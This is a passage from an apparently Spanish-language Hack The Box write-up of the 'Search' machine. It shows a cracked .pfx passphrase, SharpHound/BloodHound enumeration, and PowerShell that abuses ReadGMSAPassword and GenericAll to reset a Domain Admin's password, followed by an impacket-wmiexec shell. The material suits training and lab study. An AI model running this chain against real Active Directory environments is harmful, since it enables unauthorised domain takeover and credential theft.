Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)
1g 0:00:00:44 DONE (2023-05-04 00:33) 0.02269g/s 124478p/s 124478c/s 124478C/s misssnamy..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Al no contar específicamente con un escenario planteado en el uso del `.p12` como lo es indicado [aquí](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/certificate-theft#finding-certificate-files-theft4) se buscó importar el certificado en el navegador para saber si de alguna forma estaba sirviendo como forma de autenticación contra las rutas encontradas a las cuales no se tenía acceso vía web (`staff` y `certsrv`). Importando desde opciones de firefox en la sección de "Certificate Manager", en donde se pedirá la passphrase antes encontrada.



Posteriormente accediendo desde el subdominio `https://research.search.htb/staff/` se puede visualizar un login de powershell desde la web, en donde al proveer las credenciales encontradas se obtiene acceso a la máquina.


## Post Explotación

### Enumeración

Al tratarse de una máquina unida a dominio se recopiló información haciendo uso de [SharpHound](https://github.com/BloodHoundAD/SharpHound) para una vez obtenida, analizarla con [BloodHound](https://github.com/BloodHoundAD/BloodHound). Por lo que se subió el archivo `SharpHound.exe` y se ejecutó sin parámetros para recopilar el `.zip` con la información del dominio.

```powershell
PS C:\Users\Sierra.Frye\Documents> 

cp \\10.10.16.4\smbFolder\SharpHound.exe .

PS C:\Users\Sierra.Frye\Documents> 

.\SharpHound.exe

2023-05-09T13:45:04.2992791+01:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
2023-05-09T13:45:04.7524092+01:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-09T13:45:04.7836667+01:00|INFORMATION|Initializing SharpHound at 13:45 on 09/05/2023
2023-05-09T13:45:17.7604712+01:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-05-09T13:45:17.9323511+01:00|INFORMATION|Beginning LDAP search for search.htb
2023-05-09T13:45:18.0417048+01:00|INFORMATION|Producer has finished, closing LDAP channel
2023-05-09T13:45:18.0573303+01:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-05-09T13:45:48.3532054+01:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 33 MB RAM
2023-05-09T13:46:13.6037415+01:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2023-05-09T13:46:13.6193716+01:00|INFORMATION|Output channel closed, waiting for output task to complete
2023-05-09T13:46:13.7131142+01:00|INFORMATION|Status: 345 objects finished (+345 6.272727)/s -- Using 41 MB RAM
2023-05-09T13:46:13.7131142+01:00|INFORMATION|Enumeration finished in 00:00:55.7851484
2023-05-09T13:46:13.8068698+01:00|INFORMATION|Saving cache with stats: 305 ID to type mappings.
 309 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-05-09T13:46:13.8224917+01:00|INFORMATION|SharpHound Enumeration Completed at 13:46 on 09/05/2023! Happy Graphing!

PS C:\Users\Sierra.Frye\Documents> 

ls -force

    Directory: C:\Users\Sierra.Frye\Documents

Mode                LastWriteTime         Length Name

----                -------------         ------ ----                                                                  

d--hsl         4/7/2020  10:07 PM                My Music
d--hsl         4/7/2020  10:07 PM                My Pictures
d--hsl         4/7/2020  10:07 PM                My Videos
d-----        7/31/2020   9:00 AM                WindowsPowerShell
-a----         5/9/2023   1:46 PM          26410 20230509134613_BloodHound.zip
-a----        4/18/2023   3:01 AM        1051648 SharpHound.exe
-a----         5/9/2023   1:46 PM          48450 Y2IwYjcwMmYtN2IwMC00MGNjLWI1MTAtZWYzMDU1ZmVlMjRj.bin

PS C:\Users\Sierra.Frye\Documents> 
```

Al descargar y cargar el archivo `20230509134613_BloodHound.zip` a BloodHound, se buscó identificar las cuentas a las que se contaba con acceso para marcarlas como "Owned".


Para después dentro de la sección de análisis buscar el camino más rápido de los Principals obtenidos hacia Domain Admin. Encontrando un camino potencial de `sierra.frya` a `tristan.davies` por medio del abuso del permiso `ReadGMSAPassword` que existe en el grupo `ITSEC` para `BIR-ADFS-GMSA$` y desde mismo hacia `tristan.davies` existe un permiso `GenericAll` disponible para abusar.


### Escalación de privilegios

#### sierra.frya &rarr; tristan.davies

Inicialmente para abusar del permiso `ReadGMSAPassword` se encontró el siguiente fragmento de instrucciones en powershell para obtener un NT-Hash e intentar autenticarse con este, sin embargo no se logró de manera satisfactoria.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA$' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
```

Por lo que en su lugar, se optó por ejecutar las siguientes instrucciones para concatenar el abuso de `ReadGMSAPassword` con el `GenericAll` de `BIR-ADFS-GMSA$` ya que con la lectura de la contraseña GMSA se puede generar un objeto de tipo credencial y así impersonar al usuario `tristan.davies` y ejecutar cualquier comando, por ejemplo, un reseteo de contraseña del mismo.

```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA$' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

$cred = new-object system.management.automation.PSCredential "search.htb\BIR-ADFS-GMSA$",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred 
```

Y así obtener acceso como Domain Admin en la máquina por medio de `impacket-wmiexec`. Al momento de realizar la máquina se intentó acceder haciendo uso de `impacket-psexec` y `impacket-smbexec` pero no se tuvo éxito.

```powershell
└─$ impacket-wmiexec 'search.htb/tristan.davies:Password1234!@10.10.11.129'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
search\tristan.davies

C:\users\administrator\desktop>net user tristan.davies
User name                    Tristan.Davies
Full Name                    Tristan Davies
Comment                      The only Domain Admin allowed, Administrator will soon be disabled
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            08/05/2023 15:43:39
Password expires             Never
Password changeable          09/05/2023 15:43:39
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   08/05/2023 15:35:43

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Domain Admins        *Domain Users
                             *Enterprise Admins    *Group Policy Creator
                             *Schema Admins
The command completed successfully.
```

## Notas adicionales

Al comparar mi resolución me di cuenta que para visualizar la columna protegida del archivo en excel `Phishing_Attempt.xlsx`, es posible eliminar la protección, borrando la etiqueta `<sheetProtection>` de `xl/worksheets/sheet2.xml` y creando de nuevo un zip desde la raíz, de esta manera sería posible visualizar también las columnas directamente en la hoja de cálculo.

```bash
└─$ zip phishing.xls -r .
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 52%)
  adding: docProps/core.xml (deflated 47%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 60%)
  adding: [Content_Types].xml (deflated 79%)
  adding: xl/ (stored 0%)
# Data truncada
```



## Referencias

- [Certificados PFX/P12/PKCS#12](https://book.hacktricks.xyz/crypto-and-stego/certificates#pfx-p12-pkcs-12-format).
- [Robo de certificados](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/certificate-theft#finding-certificate-files-theft4).
- [SharpHound](https://github.com/BloodHoundAD/SharpHound).
- [BloodHound](https://github.com/BloodHoundAD/BloodHound).
- [Permiso ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword).